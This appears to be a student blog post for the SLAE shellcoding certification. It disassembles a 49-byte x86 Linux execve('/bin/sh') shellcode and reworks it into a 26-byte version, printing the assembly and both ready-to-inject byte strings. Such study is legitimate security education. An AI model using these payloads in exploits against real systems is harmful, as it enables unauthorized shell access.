 # Shellcode: Execve("/bin/sh")

[http://shell-storm.org/shellcode/files/shellcode-863.php](http://shell-storm.org/shellcode/files/shellcode-863.php)


# Disassembly

Here I have commented on the high level functionality of the shellcode.


```assembly
global _start

section .text
global _start

section .text
_start:
    jmp short here

me:
    ; pop esi
    ; mov edi,esi
    pop edi

    xor eax,eax
    push eax    ; push 0x0    
    mov edx,esp
    
    push eax    ; push 0x0
    add esp,3   ; jump over edx
    ; lea esi,[esi +4]
    lea esi,[edi +4]    ; load string to stack "n/sh"
    xor eax,[esi]
    push eax    
    xor eax,eax
    xor eax,[edi]   ; load string to stack "//bi"
    push eax
    mov ebx,esp 

    xor eax,eax     ; again push "//bin/sh" to stack, load into ecx for argument
    push eax
    lea edi,[ebx]
    push edi
    mov ecx,esp

    mov al,0xb      ; execve()
    int 0x80

here:
    call me
    path db "//bin/sh"

```

Shellcode (length: 49 bytes)

```c
"\xeb\x23\x5f\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x77\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd8\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73"
```


# Changes

First, I remove the jmp, call, pop technique instructions that gets a pointer to the string "//bin/sh" as I will be pushing it to the stack later. 

I then push the string to the stack with the following instructions instead of moving the data as the original shellcode did using `lea`.

The commented code is what was removed from the original and replaced with my instructions.

```assembly
; push eax            ; load "//bin/sh" to stack
; add esp,3
; lea esi,[esi +4]
; xor eax,[esi]
; push eax
; xor eax,eax
; xor eax,[edi]
; push eax
; mov ebx,esp 
push eax
push 0x68732f6e         ; "hs/n"
push 0x69622f2f         ; "ib//"
mov ebx, esp
```

Next, I also change the way the second argument is loaded onto the stack by leveraging the ebx pointer to the string "//bin/sh". To do this, I just push a null `eax` which doesn't have to be `xor`'d since it was not touched in my previous instructions. Then push the pointer to "//bin/sh" that is currently in `ebx` and move this pointer to `ecx`.
```assembly
; xor eax,eax
; push eax
; lea edi,[ebx]
; push edi
; mov ecx,esp
push eax
push ebx
mov ecx, esp
```



# Completed Shellcode

```assembly
global _start

section .text
_start:
    ; jmp short here

me:
    ; pop esi
    ; mov edi,esi
    
    xor eax,eax     ; push ptr to 0x0 to stack for edx argument 
    push eax
    mov edx,esp    

    ; push eax            ; load "//bin/sh" to stack
    ; add esp,3
    ; lea esi,[esi +4]
    ; xor eax,[esi]
    ; push eax
    ; xor eax,eax
    ; xor eax,[edi]
    ; push eax
    ; mov ebx,esp 
    push eax
    push 0x68732f6e         ; "hs/n"
    push 0x69622f2f         ; "ib//"
    mov ebx, esp


    ; xor eax,eax
    ; push eax
    ; lea edi,[ebx]
    ; push edi
    ; mov ecx,esp
    push eax
    push ebx
    mov ecx, esp


    mov al,0xb      ; execve()
    int 0x80

; here:
;     call me
;     path db "//bin/sh"
```

New Shellcode (Length: 26)

```c
"\x31\xc0\x50\x89\xe2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```



# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly

